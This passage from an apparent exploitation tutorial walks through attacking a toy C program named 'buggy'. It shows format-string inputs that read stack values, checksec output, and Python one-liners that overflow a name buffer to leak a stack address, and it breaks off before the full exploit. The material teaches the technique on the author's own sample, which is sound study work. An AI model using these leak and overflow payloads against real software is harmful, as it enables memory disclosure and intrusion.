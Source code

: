 ```sh
$ ./buggy
Give me your name:
Bob
Welcome Bob!...
Now tell me what to do:
DAEDBEEF.%136$016lx
OK! I am on it.
  -------ToDo-------
DAEDBEEF.4645454244454144
  -------ToDo-------
```

Here I want to mention that there are few calling conventions 
[CCnv]. In this case, we have *System V ABI*, so arguments are passed by *rdi*,
*rsi*, *rdx* and *rsx*. And this is the reason why our string is so deep in the
stack. As the first argument, it is passed by *rdi* and isn't placed on the
stack by the function. So the 136th value on the stack is, in fact, original
variable *task*.

In CTF or other challenges, programs will be probably compiled with an optimal
configuration for planned vulnerability, but here I want to get some program
compiled on the standard system without special flags.  All this to get real
filling on the matter. Often I read something that seems easy but in the try,
something is missing or unspoken. And sometimes the problem lays in the
'special way of compilation'.

By default, **gcc** compile example *buggy* with some security techniques. This
knowledge will be very important for the next step - exploiting. 

```sh
$ checksec buggy
[*] './buggy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

### The good part

In our case, this one vulnerability gives us a little. Every time a program can
be placed at a different memory location. So we cannot calculate proper
address and overwrite target variable in one run of *scanf*/*printf*.
Fortunately, there is another bug we can use. What's a coincidence.

What if one overflows *name* variable. 
```sh
$ python3 -c "print(512*'A'+'try this:%s\n')" | ./buggy
Give me your name:
tryNow tell me what to do:
OK! I am on it.
  -------ToDo-------
this:this:----ToDo-------
o do:

  -------ToDo-------
```
Hmm, one can do better.
```sh
$ python3 -c "print(512*'A'+'name_address:_%p_')" | ./buggy 
Give me your name:
name_address:_0x7fff163f0ad0_Now tell me what to do:
OK! I am on it.
  -------ToDo-------
```